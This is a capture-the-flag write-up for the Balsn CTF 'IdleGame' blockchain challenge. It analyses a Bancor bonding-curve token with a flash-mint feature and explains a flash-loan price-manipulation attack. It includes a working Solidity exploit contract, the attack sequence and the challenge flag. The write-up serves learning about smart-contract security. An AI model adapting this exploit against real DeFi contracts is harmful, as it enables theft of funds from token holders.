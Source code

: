 IdleGame
============
857 points - 4 Solves


I first started by performing source code review on `Tokens.sol`. It implements multiple contract definitions such as `ERC20` , `FlashERC20`, and `ContinuousToken`. 

The interesting part here is `ContinuousToken`, which are tokens that are managed by bonding curve contracts. In short, the prices of such token are calculated continously. Few properties of that are tokens can be minted limitlessly, the buy and sell prices of tokens are dependent on the token minted, and has instant liquidity. 

The `ContinuousToken` creates an object for Bancor Bonding Curve as shown as the line below

```solidity
BancorBondingCurve public constant BBC = BancorBondingCurve(0xF88212805fE6e37181DE56440CF350817FF87130);
```
 
The contract for BancorBondingCurve is deployed on ropsten on address `0xF88212805fE6e37181DE56440CF350817FF87130`. Next thing, I did was to pull off the source code of the uploaded contract file from the ropsten chain. BancorBondingCurve is a mathematical curve which defines the relationship between price and token supply. So, if the number of minted tokens increase, then the price of the token also increases (and vice versa). The BancorBondingCurve contract is essentially formula which manages the price of a `ContinousToken`. The formula is:

```
Reserve Ratio = Reserve Token Balance / (Continuous Token Supply x Continuous Token Price)
```

At this point, I audited the Bancor contract to see if there is an intentional vulnerability being placed in how the mathematical expressions were happening but nothing stood out. I also diffed the said deployed contract with an original BancorBondingCurve (used in multiple real projects) to see if there are any anomalies. But, It was fine. Hence, it was evident that, I should audit the codebase more to see how this ContinuousToken is being used.


Looking at `IdleGame.sol` , I could see that 

```solidity
    function giveMeMoney() public {                                         // It can provide us 1 BSN
        require(balanceOf(msg.sender) == 0, "BalsnToken: you're too greedy");
        _mint(msg.sender, 1);
```

This means that, if the caller contract to the deployed BSN token contract has no BSN coin, then they are gifted 1 BSN coin. But, you cannot mint as much as BSN coins as you want - Which is a catch here. 

The challenge deploys Setup contract which does the following operations

```solidity
 
    constructor() public {
        uint initialValue = 15000000 * (10 ** 18);                   
        BSN = new BalsnToken(initialValue);                          // // 15,000,000 BSN Cap
        IDL = new IdleGame(address(BSN), 999000);                   // ReserveRatio is 999000
        BSN.approve(address(IDL), uint(-1));                        // BSN can be used to mint IDL tokens
                                                                    //uint(-1) is infinity allowance
        IDL.buyGamePoints(initialValue);
    }
```

As I mentioned in the comments, The Market Token Cap (Minted) for BSN coins is 15,000,000 BSN Coins. The BSN Tokens can be used to mint IDL Tokens with an infinity allowance. We will come back to `buyGamePoints` once we analyze IDL contract. The constructor of IdleGame Contract is as follow

```solidity
constructor (address BSNAddr, uint32 reserveRatio) public ContinuousToken(reserveRatio) ERC20("IdleGame", "IDL") {
        owner = msg.sender;                                     // Deployer is the owner of the token
        BSN = BalsnToken(BSNAddr);                              // IDL can be purchased using BSN
        _mint(msg.sender, 0x9453 * scale);                      // 37971 IDL Tokens
    }
```

Once the IdleGame contract is deployed, it mints `37971` IDL Tokens. Now, we analyze member functions of the contract.

```solidity
function buyGamePoints(uint amount) public returns (uint) {
        uint bought = _continuousMint(amount);                          // How much IDL will I get from BSN
        BSN.transferFrom(msg.sender, address(this), amount);            // BSN coins can be converted to IDL 
        _mint(msg.sender, bought);                                      // You will get IDL
        return bought;
    }
    
    function sellGamePoints(uint amount) public returns (uint) {        // Accepts Amount in IDL 
        uint bought = _continuousBurn(amount);
        _burn(msg.sender, amount);
        BSN.transfer(msg.sender, bought);
        return bought;
    }

```
Following are the parameters for the Bancor. 
Reserve Ratio = 999000 & Reserve Token Balance = 10 ** 15. Note that BSN is used as a reserve token to purchase IDL token. This looked very familiar to me, because there is also a use of `FlashERC20` which is a Flash Token. I instantly thought about Eminence Attack, in which DAI was used as a reserve for EMN token, and EMN token was used as a reserve for eAAVE token. However, it is not exactly similar because we don't have 3 tokens playing there part. 

```solidity
contract IdleGame is FlashERC20, ContinuousToken
```

`IdleGame` inherits from `FlashERC20` which is

```solidity

interface IBorrower {
    function executeOnFlashMint(uint amount) external;
}

contract FlashERC20 is ERC20 {
    event FlashMint(address to, uint amount);

    function flashMint(uint amount) external {
        _mint(msg.sender, amount);
        IBorrower(msg.sender).executeOnFlashMint(amount);
        _burn(msg.sender, amount);
        emit FlashMint(msg.sender, amount);
    }
}
```

Flash loans are a recent blockchain smart contract construct that enable the issuance of loans that are only valid within one transaction and must be repaid by the end of that transaction. 

There is a good explaination of how this library work: https://docs.google.com/presentation/d/1E3Uuoj4DYEWGWpV2PzY1a8I86nCbgo52xL7xhNvNVj8/edit#slide=id.p

As per the documentation, we can issue as many IDL as we want throughout one atomic transaction until we return it back by the end of the `flashMint` call. That being said, we can write our own logic on the caller contract using `executeOnFlashMint` function. 

Hence, we can perform a Flash Loan Attack to manipulate the price in the market. As coins are burned and not reserved, this opens a market loophole to perform this attack. The way we can walk out with profit is that we buy as much as possible IDL tokens (calculated by ContinuousMint) using our gifted 1 BSN token after taking an enormous amount of IDL flash loan which can cause a rift (pump) in IDL price. The rift in IDL price happens because the Bancor Curve will temporarily messed up by getting a huge IDL mint (pump). This means that after we withdraw the converted IDL coins from the deposited 1 BSN Token in our first call to `buyGamePoints` , we can end the flash loan by repaying the same huge amount loan back. That will cause the burn of the falsely inflated minted coins prior. Once, the flash loan calls finishes, the return via `sellGamePoints` will yeild more BSN tokens for the previously purchased IDL tokens.

A visual attack looks as following

```
giveMoney() will send pow(10,-18) BSN coins
FlashERC20 Mint
buyGamePoints() with pow(10, -18) BSN coins 
FlashERC20 Burn 
sellGamePoints() and you will receive BSN coins a bit more 
FlashERC20 Mint
buyGamePoints() with all the BSN coins
FlashERC20 Burn
sellGamePoints() and you will receive BSN coins a bit more 
FlashERC20 Mint
buyGamePoints() with all the BSN coins
FlashERC20 Burn
sellGamePoints() and you will receive BSN coins a bit more 
FlashERC20 Mint
buyGamePoints() with all the BSN coins
FlashERC20 Burn
giveMeFlag()
```

This interplay should be done all atomically in one transaction. I wrote an exploit code to perform it.

```solidity
contract Exploit {
 
    address IDLAddress = 0xAAAAAAA; // Enter IDL of your deployed contract
    address BSNAddress = 0xBBBBBBB; // Enter BSN of your deployed contract
    uint public count;
    uint myidl;
    uint boo;
 
    IdleGame idl = IdleGame(address(IDLAddress));
    BalsnToken bsn = BalsnToken(address(BSNAddress));
 
    function pwn() public {
      bsn.approve(IDLAddress, uint(-1));
      bsn.giveMeMoney();
      idl.flashMint(99056419041694676677800000000000000002);
      boo = idl.sellGamePoints(myidl);
      idl.flashMint(99056419041694676677800000000000000002);
      boo = idl.sellGamePoints(myidl);
      idl.flashMint(99056419041694676677800000000000000002);
      boo = idl.sellGamePoints(myidl);
      idl.flashMint(99056419041694676677800000000000000002);
      idl.giveMeFlag();
 
    }
 
    function executeOnFlashMint(uint amount) external {
        if (count == 0){
            myidl = idl.buyGamePoints(1);   // or 10^-18 like 0.000000000000000001
            count = count+1;
        }else if (count == 1){
            myidl = idl.buyGamePoints(boo);
            count = count+1;
        }else if (count ==2){
            myidl = idl.buyGamePoints(boo);
            count = count+1;
        }else if (count ==3){
            myidl = idl.buyGamePoints(boo);
            count = count+1;
        }
    }
 
 
}
```

The block for transaction for this attack: https://ropsten.etherscan.io/tx/0x129a5bffa0bf2a4bd5a956e919a509b8f9b55cabc3d6b10742326ad08650fdba

I then used the netcat service to get the flag once I noticed that tx was successful. All in all it was a really good challenge and always awesome to see Blockchain challenges in quality CTFs. Thanks to Balsn CTF authors. 

##### Flag: BALSN{Arb1tr4ge_wi7h_Fl45hMin7}
